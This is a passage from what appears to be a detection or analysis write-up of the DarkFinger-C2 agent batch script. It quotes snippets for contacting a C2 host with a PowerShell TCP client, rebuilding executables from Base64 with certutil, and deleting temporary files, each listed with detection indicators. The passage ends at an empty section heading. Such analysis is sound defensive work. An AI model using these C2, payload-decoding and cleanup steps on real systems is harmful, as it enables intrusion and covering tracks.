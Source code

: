    ```batch
    SET /P DARK_IP="[+] DarkFinger C2 Host/IP: "
    cmd /c powershell "$c=New-Object System.Net.Sockets.TCPClient;try{$c.Connect('%DARK_IP%','%DARK_PORT%')}catch{};if(-Not $c.Connected){echo `n'[-] Port 79 unreachable :('}else{$c.Close();echo `n'[-] Port 79 reachable :)'}"
        ECHO.
    ```

### CleanFile

- Description: Removed the first two lines of `tmp.txt` (Used to download PsExec64.exe and Nc64.exe) as it contains the computer name
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L142
- Indicators:
  - Call to `cmd` with the `/c` flag. (`%Tool%` could either refer to `PS` or `NC`)

    ```batch
    REM remove first two lines of tmp.txt as contains Computer name.
    :CleanFile
    call cmd /c more +2 tmp.txt > %Tool%.txt
    .....
    ```

### RemoveTmpFile

- Description: Deletes `tmp.txt`
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L146
- Indicators:
  - Call to `cmd` with the `/c` flag.

    ```batch
    call cmd /c del C:\Users\%username%\Desktop\tmp.txt
    ```

### B64Exe

- Description: Reconstruct executable from the Base64 text-file using `certutil`
- Source Reference:
  - https://github.com/hyp3rlinx/DarkFinger-C2/blob/master/DarkFinger-C2-Agent.bat#L151
- Indicators:
  - Call to `certutil` binary with the `-decode` flag
  - Deletes `%Tool%.txt` by calling the `del` command. (`%Tool%` could either refer to `PS` or `NC`)

    ```batch
    call certutil -decode C:\Users\%username%\Desktop\%Tool%.txt C:\Users\%username%\Desktop\%Tool%.EXE 1> nul
    @ECHO.
    call cmd /c del C:\Users\%username%\Desktop\%Tool%.txt
    ```

### AddNetshPortProxy
